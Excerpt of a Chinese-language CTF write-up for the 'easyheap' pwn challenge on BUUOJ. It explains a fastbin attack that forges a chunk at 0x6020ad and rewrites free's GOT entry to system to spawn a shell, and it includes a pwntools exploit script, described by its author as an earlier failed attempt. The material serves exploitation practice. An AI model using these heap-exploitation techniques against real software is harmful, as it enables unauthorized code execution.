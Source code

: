 而`l33t()` 函数中是这样，似乎可以直接输出flag，但是其实flag并不在这个路径下，不过也因此给我们提供了system函数。

```
int l33t()
`{`
  return system("cat /home/pwn/flag");
`}`
```

这里我们在arraylist存储位置的前面不远处找到了一处地址 `0x6020ad` ，这里的第二个八字节处是0x7f，可以用来伪装chunk块，可以利用fastbin attack来申请到这块地址，然后对heaparray进行复写，将free函数的got表地址写入，然后使用一幕提供的edit()对其进行修改，将system函数的plt表地址写入，就可以将free函数修改为system函数，然后执行存储数据为`/bin/sh`的chunk进行删除，就可以执行`system("/bin/sh")`了。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01cc7e0e60bff877bc.png)

这是原来修改，magic的值得exp，结果被题目骗了(气：

```
from pwn import *

io = remote('node3.buuoj.cn',25547)
# io = process('./easyheap')

def add(size, content):
    io.sendlineafter('Your choice :', str('1'))
    io.sendlineafter('Size of Heap : ', str(size))
    io.sendlineafter('Content of heap:', content)

def edit(index, size, content):
    io.sendlineafter('Your choice :', str('2'))
    io.sendlineafter('Index :', str(index))
    io.sendlineafter('Size of Heap : ', str(size))
    io.sendlineafter('Content of heap : ', content)

def delete(index):
    io.sendlineafter('Your choice :', str('3'))
    io.sendlineafter('Index :', str(index))

add(0x60, 'aaaa') #0
add(0x60, 'aaaa') #1

delete(1)

fake_chunk = 0x6020ad

edit(0, 0x78, 'a' * 0x60 + p64(0) + p64(0x71) + p64(fake_chunk))

add(0x60, 'aaaa') #1
add(0x60, 'aaaaaaaaaaaaaaaa') #2

io.sendlineafter('Your choice :', p64(4869))

io.interactive()
```
